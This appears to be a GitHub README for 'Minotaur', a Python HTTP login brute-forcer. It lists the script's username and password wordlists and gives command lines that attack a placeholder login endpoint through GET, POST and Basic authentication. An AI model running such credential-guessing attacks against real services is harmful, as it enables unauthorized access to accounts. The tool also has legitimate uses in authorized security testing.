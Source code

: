 # Minotaur

An HTTP Login Bruteforcer written in Python

## ⚙️ Requirements

- Python 3.x

## 📂 Files

- `minotaur.py`: The main script file.
- `username.txt`: A text file containing a list of usernames.
- `password.txt`: A text file containing a list of passwords.

## 🚀 Usage

Bruteforce via HTTP GET method:

```bash
python3 minotaur.py -h http://api.example.org/v1/login -u username.txt -p password.txt -m http-get -d "username=^USER^&password=^PASS^"
```

Bruteforce via HTTP POST method:

```bash
python3 minotaur.py -h http://api.example.org/v1/login -u username.txt -p password.txt -m http-post -d "username=^USER^&password=^PASS^"
```

Bruteforce via Authorization Basic method:

```bash
python3 minotaur.py -h http://api.example.org/v1/login -u username.txt -p password.txt -m basic -d "anypayload"
```
